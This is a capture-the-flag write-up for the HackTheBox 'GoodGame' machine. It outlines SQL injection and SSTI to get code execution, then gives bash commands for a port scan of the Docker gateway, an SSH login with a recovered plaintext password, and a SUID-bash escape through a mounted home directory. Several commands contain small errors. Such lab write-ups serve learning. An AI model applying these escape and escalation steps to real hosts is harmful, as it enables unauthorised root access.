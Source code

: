 # Docker Escapes and Priviledge Escalation - HackTheBox University CTF "GoodGame"

**RCE**: vulnerable to sql injection -> using sqlmap--> logged in as admin --> vulnerable SSTI -> using subprocess --> *RCE*

## Docker Escapes
```bash
ip a s
#  eth0: 172.19.0.2/16

for PORT in {1..1000}; do timeout 1s bash -c "/dev/tcp/172.19.0.1/$PORT" > /dev/null; done # 172.19.0.1: docker gateway
# Port 22 SSH(come through, not connection refuse)

# SSH require interactive shell --> stabelize it
# with the password we got before, ssh to host docker machine.
ssh augustus@172.19.0.1
# Password: supperadministratorpassword

# We're now free from container
```
## Priviledge Escalation
**Still in the docker container**:
```bash
cat /etc/password
# Don't see augustus user
# => Still have augustus home directory => This home directory is being mounted into this docker container

# Step to priv escala
# Step 1: Back to host docker machine
ssh augustus@172.19.0.1
# Password: supperadministratorpassword

# Step 2: Copy /bin/bash to augustus home directory(mounted to docker container)
copy /bin/bash /home/augustus

# Step 3: Back to docker container
exit

# Step 4: Because user in the container is root, SUID for /bin/bash
chmod +s /bin/bash

# Step 5: Back to host machine and run it
ssh augustus@172.19.0.1 # ....
/bin/bash
whoami # root
```
